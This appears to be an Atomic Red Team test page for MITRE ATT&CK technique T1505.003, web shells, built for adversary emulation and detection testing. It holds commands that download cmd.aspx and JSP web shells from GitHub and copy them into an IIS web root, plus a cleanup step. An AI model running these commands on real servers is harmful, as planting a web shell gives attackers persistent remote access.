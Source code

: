 # T1505.003 - Web Shell
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1505.003)
<blockquote>Adversaries may backdoor web servers with web shells to establish persistent access to systems. A Web shell is a Web script that is placed on an openly accessible Web server to allow an adversary to use the Web server as a gateway into a network. A Web shell may provide a set of functions to execute or a command-line interface on the system that hosts the Web server.

In addition to a server-side script, a Web shell may have a client interface program that is used to talk to the Web server (ex: [China Chopper](https://attack.mitre.org/software/S0020) Web shell client).(Citation: Lee 2013) </blockquote>

## Atomic Tests

- [Atomic Test #1 - Web Shell Written to Disk](#atomic-test-1---web-shell-written-to-disk)


<br/>

## Atomic Test #1 - Web Shell Written to Disk
This test simulates an adversary leveraging Web Shells by simulating the file modification to disk.
Idea from APTSimulator.
cmd.aspx source - https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| web_shell_path | The path to drop the web shell | string | C:&#92;inetpub&#92;wwwroot|
| web_shells | Path of Web Shell | path | PathToAtomicsFolder&#92;T1505.003&#92;src&#92;|


#### Attack Commands: Run with `command_prompt`! 


```cmd
xcopy #{web_shells} #{web_shell_path}
```

#### Cleanup Commands:
```cmd
del #{web_shell_path} /q >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Web shell must exist on disk at specified location (#{web_shells})
##### Check Prereq Commands:
```powershell
if (Test-Path #{web_shells}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{web_shells}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/b.jsp" -OutFile "#{web_shells}/b.jsp"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/tests.jsp" -OutFile "#{web_shells}/test.jsp"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/cmd.aspx" -OutFile "#{web_shells}/cmd.aspx"
```




<br/>
